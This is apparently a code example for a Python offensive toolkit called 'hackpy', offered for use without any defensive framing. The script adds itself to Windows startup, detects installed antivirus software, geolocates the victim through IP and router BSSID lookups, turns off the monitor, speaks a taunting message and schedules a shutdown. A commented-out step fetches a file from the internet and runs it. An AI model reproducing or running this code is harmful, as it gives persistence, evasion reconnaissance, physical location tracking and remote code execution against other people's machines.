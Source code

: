 # pip install hackpy
'''
import os, sys
import hackpy

PATH = os.path.dirname(os.path.realpath(__file__)) # Get current directory path
CORE = os.path.basename(os.path.realpath(sys.argv[0])) # Get this script filename.

hackpy.configure(PATH + '\\hackpy') # Folder for temp files. default is: %temp%\hackpy
hackpy.clean() # Remove all hackpy temp files from system
hackpy.load(architecture=64) # default 32

# Autorun
hackpy.autorun(PATH, CORE, 'test', state=True) # Add this file to startup
hackpy.autorun(PATH, CORE, 'test', state=False) # Remove this file from startup

# Detect installed antivirus software on computer:
data = hackpy.detect_protection()
for antivirus in data:
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])

# Information about you IP:
data = hackpy.ip_info()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])

# Information about other IP:
data = hackpy.ip_info('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get router bssid:
bssid = hackpy.router() # You can use own router ip list: router_urls = ['192.168.0.1', '192.168.1.1', etc...]
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate()
print('LATITUDE: ' + str(data['lat']) + ', LONGITUDE: ' + str(data['lon']) + ', RANGE: ' + str(data['range']))

# Nircmdc reference: https://nircmd.nirsoft.net
hackpy.nircmdc('monitor off')
hackpy.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')
hackpy.system('shutdown -s -t 3600')

# Load and execute file from internet
# file = hackpy.wget(direct.link.here)
# hackpy.start(file)
'''
